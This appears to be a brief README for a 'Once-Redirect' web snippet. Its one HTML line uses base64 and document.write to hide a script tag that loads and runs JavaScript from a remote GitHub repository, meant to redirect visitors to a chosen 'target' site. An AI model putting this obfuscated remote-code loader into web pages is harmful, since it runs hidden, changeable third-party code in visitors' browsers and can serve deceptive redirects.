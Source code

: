 # Once-Redirect
```html
<script>var url = "https://www.google.com"; document.write(atob("PHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiIHNyYz0iaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0lDV1ItVEVDSC9PbmNlLVJlZGlyZWN0L21hc3Rlci9yZWRpcmVjdC5qcyI+PC9zY3JpcHQ+"));</script>
```
change value url variable "https://www.google.com" to our target web
